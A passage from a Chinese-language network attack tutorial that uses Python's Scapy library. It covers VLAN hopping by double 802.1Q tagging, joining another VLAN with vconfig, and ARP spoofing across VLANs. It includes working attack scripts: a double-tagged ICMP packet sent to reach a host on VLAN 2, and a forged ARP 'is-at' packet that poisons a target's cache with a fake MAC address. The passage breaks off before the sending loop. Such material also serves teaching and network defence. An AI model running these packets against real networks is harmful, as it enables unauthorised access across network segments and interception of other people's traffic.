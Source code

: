`RandMAC`和`RandIP`负责随机地产生地址当中的每一个字节。其余的则由`sendp()`函数的循环参数完成。

0x05 VLAN Hopping
=====

因为`VLAN`不具备安全特性，一方面标记`VLAN`取决于包含`VLAN id`的数据包头部，使用`Scapy`可以很容易创建这样的数据包。现在让我们的电脑连接到`VLAN1`，并且尝试去`ping VLAN2`上的其他主机。

```
#!/usr/bin/python    

from scapy.all import *    

packet = Ether(dst="c0:d3:de:ad:be:ef") / \
                Dot1Q(vlan=1) / \
                Dot1Q(vlan=2) / \
                IP(dst="192.168.13.3") / \
                ICMP()    

sendp(packet)

```

首先我们设定在数据包的头部当中，包含我们的`VLAN`标记，再加上一个目的主机地址。交换机将会移除第一个标记，并不决定如何处理该数据包，当它看到第二个标记`VLAN id 2`的时候，则决定转发到这个`vlan`。如果交换机连接到其他通过堆叠启用的`VLAN`交换机，这种攻击只会是成功的，否则它们就是使用的基于端口的`VLAN`。

0x06 Let’s Play Switch
=====

`Linux`可以运行在许多嵌入式网络设备上；因此凭借`Linux`操作系统，人们可以把自己的电脑变成一台功能齐全的`VALN`交换机，这并不令人惊奇。你只需要`vconfig`这种工具就够了。在根据你的操作系统安装所需的数据包后，通过以下的命令，你可以将你的主机加入到另一个`VLAN`环境中。

```
vconfig add eth0 1

```

然后你必须记住启动新设备，并给它一个`VLAN`网络中的`IP`地址。

```
ifconfig eth0.1 192.168.13.23 up

```

0x07 ARP Spoofing Over VLAN Hopping
=====

`VLAN`会限制对同一`VLAN`的端口的广播流量，因此我们不能在默认情况下应对所有的`ARP`请求，就像在第一个`ARP spoofing`例子中看到的那样，必须每隔几秒就向受害者告诉我们的`MAC`地址。除了我们对每个数据包进行了标记和加之的目的`VLAN`，下面的代码是通用的。

```
#!/usr/bin/python    

import time
from scapy.all import sendp, ARP, Ether, Dot1Q    

iface = "eth0"
target_ip = '192.168.13.23'
fake_ip = '192.168.13.5'
fake_mac = 'c0:d3:de:ad:be:ef'
our_vlan = 1
target_vlan = 2    

packet = Ether() / \
                Dot1Q(vlan=our_vlan) / \
                Dot1Q(vlan=target_vlan) / \
                ARP(hwsrc=fake_mac,
                        pdst=target_ip,
                        psrc=fake_ip,
                        op="is-at")    
```